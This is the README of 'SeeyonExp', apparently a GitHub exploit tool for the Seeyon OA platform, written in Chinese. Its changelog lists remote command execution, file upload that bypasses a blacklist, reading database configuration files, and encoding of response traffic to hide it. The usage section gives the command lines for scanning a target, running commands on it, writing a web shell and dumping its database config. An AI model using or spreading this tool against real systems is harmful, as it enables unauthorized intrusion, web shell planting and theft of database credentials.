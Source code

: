# SeeyonExp

### 0x00 开发日志

V0.6 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.5 增加数据库配置文件读取功能V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2 命令可以在windows与Linux下执行，并支持https

V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan 

http/https://xxxx.com:port/seeyon 执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext
